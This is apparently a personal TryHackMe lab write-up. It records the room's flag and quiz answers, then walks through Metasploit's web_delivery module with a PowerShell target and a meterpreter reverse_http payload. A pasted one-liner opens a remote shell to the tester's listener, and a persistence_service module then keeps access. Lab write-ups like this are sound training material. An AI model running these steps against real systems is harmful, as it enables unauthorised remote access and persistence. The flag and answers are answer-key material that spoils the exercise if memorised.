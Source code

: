 And get the flag
![Pasted image 20240919213805.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919213805.png)
> [!check]- Now that we've confirmed that we have an elevated prompt, read the contents of `root.txt` on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!
> THM{COIN_OPERATED_EXPLOITATION}
# Gain remote shell
Select exploit
```shell
use exploit/multi/script/web_delivery
```

Show info
```shell
info
```
![Pasted image 20240920083419.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920083419.png)

> [!check]- First, let's set the target to PSH (PowerShell). Which target number is PSH?
> 2

And select the PSH with the number
```shell
set target PSH
```

Set payload
```shell
set payload windows/meterpreter/reverse_http
```

Set the `lport`and `lhost`
E.g. 
```shell
setg lhost 10.6.2.59
setg lport 4747
```

All ready
![Pasted image 20240920084139.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920084139.png)
After all, `run -j`
And we have a code
![Pasted image 20240920092816.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920092816.png)
Copy, paste and run on the windows machine.
After run it, we come back to the metasploit and we have a shell
![Pasted image 20240920094759.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920094759.png)
# Persistence
Use the session number obtained in the last step.
Use the module and configs
```shell
use exploit/windows/local/persistence_service
```
![Pasted image 20240920103609.png|700](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920103609.png)
Run `expoloit`
![Pasted image 20240920103644.png|700](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920103644.png)
**Or** use the module
```shell
use exploit/windows/local/persistence_service
```
![Pasted image 20240920104008.png|700](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920104008.png)
And `exploit`